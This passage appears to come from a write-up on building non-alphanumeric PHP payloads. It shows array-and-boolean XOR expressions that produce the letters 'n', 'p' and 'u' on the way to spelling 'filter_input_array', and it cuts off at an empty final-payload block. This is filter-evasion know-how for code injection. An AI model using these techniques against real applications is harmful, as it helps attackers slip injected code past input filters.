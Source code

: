 ```
n: '7'^'y':         ([].[])[![]]^(![]^![]).[][!![]]^([].[])[!![]]^(![]^![]).[][!![]]^(![]^![]).[][!![]]^(((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))().[])[((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))()]^(![].![].[].[])[!(![]^![]).(![]^!![])]
p: '1'^'a':         ![].[][!![]]^(![].![].![].[].[])[!(![]^![]).(![]^!![])]
u: '4'^'a':         (((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))().[])[((([].![])[!![]]^![].[][!![]]).((![]^![]).[][!![]]^(![].![].[].[])[!(![]^![]).(![]^!![])]))()]^ (![].![].![].[].[])[!(![]^![]).(![]^!![])]
```

Note that the final `'array'` in the function name can only be replaced by `[]`, since PHP does not care about the case, and writing `fIlTer_iNpuT_Array` should be perfectly fine (same as `"filter_input_".[]`). Each letter is put between parentheses, and the final payload is as follows:

```
```